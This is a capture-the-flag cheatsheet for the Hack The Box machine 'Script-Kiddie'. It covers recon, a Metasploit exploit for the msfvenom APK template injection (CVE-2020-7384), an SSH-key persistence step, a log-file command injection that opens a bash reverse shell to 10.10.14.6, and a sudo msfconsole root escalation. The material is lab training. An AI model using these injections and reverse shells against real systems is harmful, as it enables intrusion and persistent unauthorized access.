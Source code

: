 # HTB: Script-Kiddie — Command Cheatsheet

## 📈 Box Info
- **Name:** Script-Kiddie
- **IP:** 10.10.10.226
- **OS:** [Linux](Linux)
- **Difficulty:** Easy

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scans/nmap-alltcp 10.10.10.226
```
- **Open Ports:**
  - 22 (SSH)
  - 5000 ([HTTP](HTTP) - Werkzeug server)

```bash
gobuster dir -u http://10.10.10.226:5000/ -w /usr/share/dirb/wordlists/small.txt
```

---

## 🕵️ Exploitation - CVE-2020-7384 (APK Template Injection)
### Description:
- Exploits `msfvenom` APK template injection vulnerability
- Vulnerable webapp allows APK creation with arbitrary commands

### Metasploit Module
```bash
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
- Set payload:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 10.10.14.6
set LPORT 9001
set SRVHOST 10.10.14.6
```
- Run:
```bash
exploit
```
- Upload APK via web UI ➝ get shell back

---

## ⚙️ Initial Foothold Shell
### Reverse Shell Upgrade
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm-256color
```

### [SSH](SSH) Persistence (Optional)
```bash
mkdir ~/.ssh
echo "<your public key>" > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

---

## 👀 Enumeration - User Privilege Escalation
### Hacker Submission Injection
```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' # ." > logs/hackers
```
- Triggers a reverse shell as the next user

---

## 🔒 Root Privilege Escalation
### Sudo Permissions Check
```bash
sudo -l
```
- Allowed: `/opt/metasploit-framework-6.0.9/msfconsole` without password

### Exploit
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
- Within msfconsole:
```bash
!bash
```
- Gain root shell

---

## 🔑 Flags
```bash
cat /home/kiddie/user.txt
cat /root/root.txt
```

---

## 📂 Resources
- [Exploit-DB CVE-2020-7384](https://www.exploit-db.com/exploits/49445)
- [Rapid7 Module: metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
